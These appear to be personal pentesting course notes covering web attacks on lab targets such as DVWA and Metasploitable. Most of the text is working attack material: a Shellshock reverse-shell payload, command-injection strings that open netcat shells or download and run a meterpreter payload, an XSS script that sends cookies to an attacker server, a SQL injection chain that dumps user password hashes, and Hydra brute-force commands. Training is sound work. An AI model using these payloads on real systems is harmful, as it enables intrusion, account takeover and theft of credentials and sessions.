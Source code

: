 # Website Penetration

## HTTP Request and Response

HTTP Requests are sent to the server that contains the web page we want. It responds with a HTTP Response letting us know if it does or does not have the resource we requested, along with Headers and corresponding HTML code.

## Information Gathering and Dirb Tool

Use the same gathering tools as before along with Dirb

`dirb http://METASPLOITABLEIP` - returns list of subdirectories

## Burbsuite

A proxy that allows us to customize HTTP requests

03 Website Application Analysis -> burpsuite

Rewatch video for configuration.

## Shellshock Exploitation

Discovered in 2014. This exploit can be tested by downloading a VM from pentesterlab

Right click the cgi request to the vulnerable machine, and send to repeater

Replace the User Agent field - `() { :;}; /bin/bash -c 'nc OURIP OURPORT -e /bin/bash'`
Before sending with burpsuite, set up a listener `nc -lvp OURPORT`

This works because of a vulnerability that used to exist with how bash handled environment variables and empty functions.

`exploit/multi/http/apachee_mod_cgi_bash_env_exec` - Use msf exploit module to accomplish the same thing. Need to set RHOSTS and TARGETURI

## Command Injection

Similar to the Shellshock exploit, but this command injection takes place on the website itself.

This exploit can be tested in Metasploitable

`192.168.1.1; ls -al`

(&& / & / | also work as a command separator)

We can use netcat to exploit this

`nc -lvp IP`

`192.168.1.1; nc -e /bin/bash OURIP PORT`

Set DVWA to medium vulnerability

`192.168.1.1 & ls -al` ends up working

## Meterpreter Shell with Command Injection

Meterpreter gives us a lot more options than netcat.

So we need to create an appropriate payload, download the payload to the target machine, and execute the payload on the target machine (both of these through command injection)

Linux comes with Python installed, so we'll use a python payload.

`msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.9 LPORT=6000 >> tester.py`

The target machine has to download our payload from somewhere, so we'll set up an Apache server. Apache comes with Linux.

`sudo service apache2 start`

in root -

`cp /home/kali/Desktop/tester.py /var/www/html/`

in DVWA - 

`; wget 192.168.1.9/tester.py` - target machine downloads our payload

set up listener -

`use exploit/multi/handler` - Set payload (python/meterpreter/reverse_tcp), set LHOST and LPORT (6000)

in DVWA - 
`; python tester.py`

## Reflected XSS and Cookie Stealing

These attacks target other website users. Stored XSS attacks get saved by the server and runs on the future user's machine. Reflected XSS doesn't get saved by the server, but will work if you send a malicious link to someone. These are often used for session stealing, to mine on other machines, or to create botnets.

We will use DVWA to test.

Enter the script into the form input, then copy the URL.

`<script>alert('1')</script>`
`<SCRIPT>alert('1')</SCRIPT>`
`<scr<script>ipt>alert('1')</script>`

Start python HTTP server to save cookies from this script

`python -m SimpleHTTPServer 8000`

```
<SCRIPT>
    document.write('<img src="http://192.168.1.9:8000/' + document.cookie + ' ">');
</SCRIPT>
```

## HTML Injection

This vulnerability gives us control over the HTML structure of a website.

`<h1>TEST<h1>`

`<meta http-equiv="refresh" content=0; url=http://google.com" />` - this redirects the user to the specified url

## SQL Injection

error based SQL Injection - `'`

`2' and '1'=1`

`2' ORDER BY 1 --'` - increase the order by number to see how many columns there are

`2' UNION SELECT 1,2 -- '`

`2' UNION SELECT database(), user() -- '` - gives us the database and user name

`2' UNION SELECT schema_name, 2 FROM information_schema.schemata --'`

`2' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema = 'dvwa' -- '`

`2' UNION SELECT column_name, column_type, 2 FROM information_schema.columns WHERE table_schema = 'dvwa' and table_name = 'users' -- '`

Since we only have two fields that display info, we will concat the db response

`2' UNION SELECT CONCAT(user_id, ':', first_name, ':', last_name), CONCAT(user, ':', password) FROM dvwa.users -- '`

You can google a hash to attempt to decrypt it. MD5 hash decrypt websites are available

## CSRF Vulnerability

XSS makes the user execute a program they didn't want to. CSRF exploits functions that make requests inside a user's session. So, you can change details about the user that is saved in a db, perform fake bank transactions, purchase items, etc. To do this, we need to identify an active session to the target website as well as have them access our manipulated website.

We can copy the vulnerable webpage HTML/CSS and then host a copy on our own Apache web server.

Change the filepath to the CSS file. Change the form action to the target website URL. Automatically add a value to the password fields.

Changing the passwords on our fake site changes the passwords on the real site.

## Bruteforce Attack - Hydra

This will work with weak passwords

`hydra`

POST Request - 

`hydra TARGETIP http-post-form "/dvwa/login.php:USERNAMEFIELDNAME=^USER^&PASSWORDFIELDNAME=^PASS^&LOGINBUTTONFIELDNAME=submit(TYPE):ERRORALERTTEXTONFAILEDATTEMPT" -L usernames.txt -P passwords.txt`

GET Request - 

`hydra TARGETIP http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H-Cookie: COOKIEVALUEFROMBURPSUITE" -L usernames.txt -P passwords.txt

## Burpsuite Intruder

This can be simpler than the hydra tool, but the community version of burpsuite has some limitations.

Find request -> Send to Intruder -> Attack type = Cluster bomb -> Clear fields and select fields to bruteforce. Then load username and password files into Payloads tab. 302 response means redirection